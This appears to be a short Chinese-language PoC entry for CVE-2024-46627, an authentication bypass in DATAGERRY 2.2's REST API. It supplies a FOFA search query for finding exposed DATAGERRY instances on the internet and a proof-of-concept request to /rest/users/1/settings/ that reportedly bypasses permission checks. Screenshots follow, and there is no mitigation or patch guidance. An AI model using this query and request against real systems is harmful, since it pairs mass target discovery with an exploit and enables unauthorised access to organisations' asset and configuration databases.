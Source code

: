 # DATAGERRY REST API 身份验证绕过漏洞(CVE-2024-46627)

DATAGERRY是DATAGerry开源的一个开源 CMDB 和资产管理工具。DATAGERRY 2.2版本存在安全漏洞，该漏洞源于存在不正确权限改造，允许攻击者通过精心设计的Web请求绕过权限验证而执行任意命令。

## fofa

```javascript
title="datagerry"
```

## poc

```javascript
使用浏览器请求
http://x.x.x.x/rest/users/1/settings/
```

![img](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPMjTlP4eAgX6Zc4HxQoYayZEcvDCD9ZyvQsiazHy93onsEwibwTxOpUdOlibggicpUTe1zK33DonibzZg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1)


![img](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPMjTlP4eAgX6Zc4HxQoYayeAddRKdNr6NiaDNnbicSibT9iapIMV75HbdicG8feHLBTytTVM7lVIdT0icw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1)

